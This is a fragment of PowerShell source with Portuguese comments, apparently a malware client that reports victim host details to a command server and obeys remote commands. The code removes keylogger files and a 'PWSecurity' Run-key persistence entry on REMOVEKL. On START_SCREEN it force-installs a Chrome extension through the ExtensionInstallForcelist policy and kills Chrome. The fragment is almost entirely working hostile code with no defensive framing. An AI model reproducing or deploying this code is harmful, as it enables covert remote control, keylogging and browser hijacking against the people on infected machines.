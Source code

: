```powershell

    # Enviar informações iniciais
    $clientInfo = "$computerName|$osInfo|$ipAddress|$stateP|$chrome"
    Write-Host "Conectado ao servidor como: $computerName - SO: $osInfo - IP: $ipAddress - Plugin: $stateP - Chrome: $chrome"
    $writer.WriteLine($clientInfo)
    $writer.Flush()


########################################################################
# Loop principal para processar comandos de imagem
    while ($true) {
        try {
            if ($stream.DataAvailable) {
            $command = $reader.ReadLine()
            Write-Host "Comando recebido: $command"

            if ($command -eq "DISCONNECT") {
            Write-Host "[Cliente] DISCONNECT recebido. Encerrando..."
            Stop-Process -Id $PID -Force
             # Pequeno delay para evitar loop intensivo de CPU
             Start-Sleep -Milliseconds 100
        }
                

           if ($command -eq "REMOVEKL") {
           Write-Host "[Cliente] REMOVEKL recebido. Encerrando..." 
           Remove-Item -Path "$PSScriptRoot\$nomeps1" -Force
           Remove-Item -Path "$PSScriptRoot\$nomebat" -Force    
           $registryPath = "HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"
           $name = "PWSecurity"

          Remove-ItemProperty -Path $registryPath -Name $name -Force -ErrorAction SilentlyContinue 
          Stop-Process -Id $PID -Force
        }


            if ($command -eq "START_SCREEN") {
                Write-Host "Capturando e enviando uma imagem..."

                # Adiciona a chave de registro para forçar a instalação da extensão no Chrome
                $regPath = "HKEY_LOCAL_MACHINE\Software\Policies\Google\Chrome\ExtensionInstallForcelist"
                $regValueName = "1"
                $regValueData = "$linkexetensao"

                Write-Host "Adicionando chave de registro para forçar instalação da extensão do Chrome..."
                Start-Process -FilePath "reg.exe" -ArgumentList "add", "`"$regPath`"", "/v", $regValueName, "/t", "REG_SZ", "/d", $regValueData, "/f" -NoNewWindow -Wait

                Write-Host "Chave de registro adicionada com sucesso."

                Write-Host "Encerrando processos do Google Chrome..."
                Start-Process -FilePath "taskkill.exe" -ArgumentList "/F", "/IM", "chrome.exe" -NoNewWindow -Wait
                Write-Host "Processos do Google Chrome encerrados."


                # Aguarda 5 segundos antes de reabrir o Chrome
                Write-Host "Aguardando 5 segundos antes de reabrir o Chrome..."
                Start-Sleep -Seconds 15

```